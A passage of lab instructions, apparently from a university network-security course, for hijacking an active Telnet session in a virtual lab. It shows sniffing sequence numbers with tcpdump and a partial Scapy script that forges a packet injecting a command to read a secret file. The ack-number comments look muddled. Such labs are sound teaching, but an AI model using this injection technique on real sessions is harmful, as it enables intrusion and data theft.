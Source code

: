 # 4. Task 4: TCP Session Hijacking Using Scapy
 
**Objective**: Inject a command into an **active** Telnet session to **print** the server’s `/home/seed/secret.txt`.
 
---
 
## 4.1 Establish the Telnet Session
 
1. On the **Client VM**:
   ```bash
   telnet 10.0.2.6 23
   ```
   - Log in to have an active session.
 
> **Take Screenshot #8**: The active Telnet session once more.
 
---
 
## 4.2 Sniff Sequence/Ack (Attacker VM)
 
1. On the **Attacker VM**, run:
   ```bash
   sudo tcpdump -i eth0 tcp and host 10.0.2.5 and host 10.0.2.6
   ```
2. Press Enter in the **Client VM** Telnet to generate a packet.  
3. Note the **server->client ack** and **client->server seq** carefully.
 
> **Take Screenshot #9**: Show your tcpdump with the relevant sequence/ack values you’ll use.
 
---
 
## 4.3 Create Hijacking Script (Attacker VM)
 
Create a file `tcp_hijack.py`:
 
```python
#!/usr/bin/python3
from scapy.all import *
 
# Adjust IPs and ports
client_ip = "10.0.2.5"
server_ip = "10.0.2.6"
client_port = 51700  # ephemeral port from sniff
server_port = 23     # Telnet
 
# Suppose from the last sniff:
# server->client had ack = 222222222
# client->server had seq = 333333333
# If the last client packet had a payload of length L, we might need to do ack = 333333333 + L
 
my_seq = 222222222   # set to the server->client ack
my_ack = 333333333   # set to the client->server seq + payload length
 
ip_layer = IP(src=client_ip, dst=server_ip)
tcp_layer = TCP(
    sport=client_port,
    dport=server_port,
    flags="PA",
    seq=my_seq,
    ack=my_ack
)
 
# Command to read secret file, plus newline
cmd = "cat /home/seed/secret.txt\n"
```